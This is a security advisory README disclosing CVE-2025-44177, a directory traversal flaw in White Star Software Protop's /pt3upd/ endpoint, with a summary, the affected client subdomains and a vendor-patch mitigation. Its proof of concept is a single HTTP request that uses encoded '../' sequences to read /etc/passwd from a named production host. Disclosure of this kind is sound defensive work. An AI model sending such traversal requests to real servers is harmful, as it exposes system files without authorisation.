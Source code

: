 # CVE-2025-44177 - Local File Inclusion in White Star Software Protop v4.4.2-2024-11-27

**Discovered by:** Imraan Khan (Lich-Sec)  
**Date:** 2025-03-13  
**Product:** White Star Software Protop  
**Version:** 4.4.2-2024-11-27  
**CVE ID:** CVE-2025-44177  

## Vulnerability Summary

A directory traversal vulnerability exists in White Star Software Protop v4.4.2-2024-11-27, specifically in the `/pt3upd/` endpoint. An unauthenticated attacker can remotely access arbitrary files on the server by sending crafted requests using encoded traversal sequences.

## Affected Instances

This affects all client environments hosted on subdomains such as `*.protop.co.za` (e.g., `client.protop.co.za`).

## Mitigation

The vendor has releaseed an updated patch. Update to the latest version.a

## References
CVE ID: CVE-2025-44177 (pending publication) </br>
URL: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-44177

## Proof of Concept (PoC)

```http
GET /pt3upd/..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Host: client.protop.co.za
